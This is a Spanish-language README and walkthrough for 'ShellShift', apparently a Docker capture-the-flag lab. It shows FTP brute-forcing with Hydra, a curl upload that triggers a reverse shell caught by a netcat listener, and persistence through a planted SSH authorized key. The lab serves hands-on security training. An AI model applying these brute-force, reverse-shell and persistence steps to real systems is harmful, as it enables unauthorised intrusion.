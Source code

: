 
# ShellShift

- [1. Instalación y despliegue](#1.-instalación-y-despliegue)
- [1.1. Despliegue de contenedor automático](#1.1.-despliegue-de-contenedor-automático)
- [1.2. Despliegue de contenedor manual](#1.2.-despliegue-de-contenedor-manual)
- [2. Descripción de ejercicio](#2.-descripción-de-ejercicio)
- [3. Solución de ejercicio](#3.-solución-de-ejercicio)
- [3.1. Identificación de servicio FTP](#3.1.-identificación-de-servicio-ftp)
- [3.2. Crackeo de credenciales FTP](#3.2.-crackeo-de-credenciales-ftp)
- [3.3. Suplantación de identidad](#3.3.-suplantación-de-identidad)
- [3.4. Reverse Shell](#3.4.-reverse-shell)
- [3.5. Conexiones perdurables](#3.5.-conexiones-perdurables)
- [3.6. Recuperación de credenciales](#3.6.-recuperación-de-credenciales)

## 1. Instalación y despliegue

Para desplegar el laboratorio es necesario tener [Docker](http://docs.docker.com/get-docker/) instalado. Una vez instalado podremos descargar o construir la imagen.

### 1.1. Despliegue de contenedor automático

Para desplegar el contenedor automáticamente, bastará con ejecutar el siguiente comando:

```bash
docker exec -d --name shellshift-container -p [Host-Port1]:21 -p [Host-Port2]:22 -p [Host-Port-range]:40000-40010 kradbyte/shellshift:latest
```

Asegúrate de reemplazar `Host-Port1`, `Host-Port2` y `Host-Port-range` con tus puertos para los servicios FTP, SSH y FTP Passive, respectivamente, en caso de querer utilizar puertos personalizados.

### 1.2. Despliegue de contenedor manual

Para desplegar el contenedor manualmente primero deberemos clonar el repositorio y construir la imagen:

```bash
git clone https://github.com/kradbyte/elementals-labs.git
docker build -t kradbyte/shellshift:latest elementals-labs/3-ShellShift
```

Una vez tengamos la imagen construida podremos desplegar el contenedor:

```bash
docker run -d --name shellshift-container -p [Host-port1]:21 -p [Host-port2]:22 -p[Host-port-range]:400000-40010 kradbyte/shellshift:latest
```

Asegúrate de reemplazar `Host-Port1`, `Host-Port2` y `Host-Port-range` con tus puertos para los servicios FTP, SSH y FTP Passive, respectivamente, en caso de querer utilizar puertos personalizados.

# 2. Descripción de ejercicio

*Contexto:* Te encuentras en una encrucijada en tu puesto de trabajo en el departamento de Atención al Cliente de una empresa reconocida. Hace una semana, desafortunadamente perdiste un archivo crucial que contenía tanto una llave de acceso como el enlace a una reunión empresarial importante programada para la próxima semana. La política interna de la empresa es implacable con los errores, y temes que admitir tu descuido pueda costarte el puesto. Afortunadamente, has descubierto que las credenciales perdidas están almacenadas en el servidor de la empresa. No tienes contactos en el departamento de TI, pero el destino te ha sonreído al encontrar un correo electrónico desechado que podría ser tu salvación:

> Good morning, Pato. I will be glad to assist you with your request. Please, provide your IP address by uploading it to the "ips" folder, naming the file "PatoIP.txt". Remember to connect as a "guest" user. Best regards.

*Target:* Recupera el archivo perdido siguiendo las pistas proporcionadas. Este viaje te llevará a interactuar con un servicio FTP, donde deberás compartir tu IP y puerto para obtener acceso a la consola del servidor. 

*Steps:*
1. Identificar servicio FTP
2. Acceder al servicio FTP
3. Compartir IP y puerto de escucha
4. Esperar conexión al servidor
4. Buscar archivo perdido: El archivo que necesitas recuperar tiene una extensión “.sh” y un tamaño de 15 KB.

*Grants:*
1. IP de Windows vs. WSL: Ten en cuenta que las direcciones IP pueden variar entre Windows y WSL. Asegúrate de proporcionar la IP correcta para evitar complicaciones.
2. Para facilitar tu trabajo y evitar tener que repetir pasos, considera establecer algún método para ganar un acceso más estable.
3. Todos los servicios corren entre los puertos 2100-2300.

*Tools:*
FTP, Curl, NetCat, Hydra, Nmap, SSH

# 3. Solución de ejercicio

## 3.1. Identificación de servicio FTP

Si se configuraron los puertos para que el servicio FTP corriera por un puerto distinto al 21, se debe utilizar alguna herramienta de escaneo, como Nmap, para descubrir dicho servicio.

```bash
nmap -sn 192.168.0.0/24
```

## 3.2. Crackeo de credenciales FTP

Una vez hayamos ubicado el servicio FTP, el correo que se menciona en la descripción del ejercicio nos menciona que podemos subir un archivo al sevidor, pero primero deberemos descubrir la contraseña. Para eso podemos utilizar herramientas como *[Hydra](https://www.kali.org/tools/hydra/)* que nos ayudarán a descubrir las credenciales. Si prestamos atención al correo sabremos que el usuario del servicio es **guest**, por lo que solo deberemos descubrir la contraseña. Podemos utilizar algún diccionario de [SecList](https://github.com/danielmiessler/SecLists/blob/master/Passwords/500-worst-passwords.txt).

```bash
hydra -l guest -P /ruta/a/tu/diccionario.txt ftp://ServerIP:ServerPort
```

No olvides reemplazar `ServerIP` y `ServerPort` con la IP y el puerto del servidor por donde corre el servicio de FTP, así como la ruta de tu diccionario.

## 3.3. Suplantación de identidad

Una vez hayamos obtenido las credenciales del servicio FTP deberemos enviar nuestra IP y nuestro puerto de escucha, para que el servidor nos envíe una consola interactiva como si fuésemos Pato. Podemos utilizar FTP o curl para enviar el archivo:

```bash
curl -T <(echo "ClientIP:ClientPort") ftp://UserServer:PassServer@ServerIP:ServerPort/ips/PatoIP.txt
```

No olvides reemplazar `ClientIP` y `ClientPort` por la IP y el puerto de tu Host, así como `UserServer` y `PassServer` por el usuario y la contraseña que hayamos encontrado en anteriormente. Finalmente deberemos reeplazar `ServerIP` y `ServerPort` por la IP y el puerto del servidor por la que corre el servicio FTP.

## 3.4. Reverse Shell

Cuando hayamos enviado nuestra IP al servidor deberemos ponernos en escucha para recibir la consola interactiva. Para ello podemos utilizar alguna herramienta como NetCat.

```bash
nc -lnvp 4444
```

## 3.5. Conexiones perdurables

Cuando el servidor nos entregue la consola interactiva podremos buscar la flag del laboratorio, pero la conexión que tenemos actualmente no será perdurable ya que cada dos minutos perderemos la conexión y deberemos repetir el proceso de enviar nuestra IP al servidor para conectarnos nuevamente, por lo que deberemos buscar una conexión persistente para evitar este inconveniente. Para ello utilizaremos SSH.

```bash
ssh-keygen -t rsa -b 4096 -f myKey -N ""
```

No olvides reemplazar `myKey` por el nombre que quieras utilizar para tu llave o el directorio donde se guardará.
Una vez hayamos creado nuestras llaves pública y privada, deberemos copiar la llave pública, con extención `.pub`, al archivo de llaves autorizadas `authorized_keys` del directorio `.ssh`, dentro del directorio de nuestro usuario en el servidor. Una vez copiada esta llave podremos conectarnos con nuestra llave privada que generamos anteriormente. No olvides cambiar el permiso de tu llave privada por el permiso 600.

```bash
ssh -p [ServerPort] -i [YourKey] [UserName]@ServerIP
```

No olvides reemplazar `ServerPort` y `ServerIP` por la IP del servidor y el puerto por el configuraste que corriera SSH, así como reemplazar `YourKey` por el nombre que tenga tu llave privada dentro de tu host y `UserName` por el nombre de usuario al que te conectarás (para este caso era _guest_).

## 3.6. Recuperación de credenciales

Una vez hayamos establecido la conexión por SSH bastará con buscar y obtener las credenciales.

```bash
./tmp/meet.sh.x
```

> **Nota:** Las credenciales están en un archivo ejecutable
